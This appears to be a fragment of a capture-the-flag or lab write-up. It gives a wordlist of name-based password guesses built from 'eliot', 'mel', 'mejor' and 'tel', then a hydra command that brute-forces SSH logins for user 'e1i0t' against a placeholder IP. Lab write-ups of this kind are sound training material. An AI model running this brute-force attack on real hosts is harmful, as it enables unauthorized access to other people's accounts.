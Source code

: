 ```
meljor
eliotmeljor
elimejor
mel
eliotelmel
mejortel
telmejor
eliotmeljor
mejorl
mel
eliotmeljor
melotimejor
elitel
mejor
telmel
meljor
eliotelmejor
mejorel
eliotmeljor
mel
telmejor
eliotmel
mejorl
mejortel
elimejor
eliotel
mejorelito
mel
eliotmeljor
mejor
melotimejor
elitelmejor
telmel
eliotmeljor
mejorel
eliotelmejor
mejorl
tel
eliotel
elitelmejor
meljor
mejor
melotimejor
eliotelmeljor
mejortel
```

### hydra

```shell
hydra -l e1i0t -P agenda.txt ssh://<IP> -t 64
```
